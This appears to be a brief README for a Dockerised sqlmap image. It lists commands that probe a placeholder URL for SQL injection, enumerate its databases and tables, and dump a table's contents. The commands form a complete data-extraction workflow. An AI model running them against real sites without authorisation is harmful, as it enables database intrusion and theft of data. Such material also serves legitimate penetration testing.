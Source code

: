 ## RUN USING THIS COMMAND
docker run --rm -it sqlmap:1.0 --url www.example.com/?id=1
## to find basic vulnerabilities
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10"

## to deeply inspect found exploitable point and get databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" --dbs

## list tables from found databas databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" -D databasename --tables

## dump table tablename from database databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" -D databasename -T tablename --dump
